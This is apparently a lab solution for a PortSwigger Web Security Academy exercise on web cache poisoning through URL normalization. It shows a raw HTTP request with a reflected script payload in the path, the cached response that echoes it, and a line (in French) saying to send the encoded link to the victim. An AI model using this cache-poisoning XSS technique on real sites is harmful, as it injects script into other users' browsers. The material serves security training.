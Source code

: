 # Lab

https://portswigger.net/web-security/web-cache-poisoning/exploiting-implementation-flaws/lab-web-cache-poisoning-normalization

## Payload

```http	
GET /<script>alert(1)</script> HTTP/2
Host: 0a0e0058049470b383975bf700b500c4.web-security-academy.net
Cookie: session=eXCSch0AXeavBfZ4xgZWLOql4hxFIN1p
Sec-Ch-Ua: "Chromium";v="117", "Not;A=Brand";v="8"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "Windows"
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/117.0.5938.63 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: none
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Accept-Encoding: gzip, deflate, br
Accept-Language: en-US,en;q=0.9
```

## Answer

```
HTTP/2 404 Not Found
Content-Type: text/html; charset=utf-8
X-Frame-Options: SAMEORIGIN
Cache-Control: max-age=10
Age: 1
X-Cache: hit
Content-Length: 44

<p>Not Found: /<script>alert(1)</script></p>
```

Envoyer le lien : `https://0a0e0058049470b383975bf700b500c4.web-security-academy.net/%3Cscript%3Ealert(1)%3C/script%3E`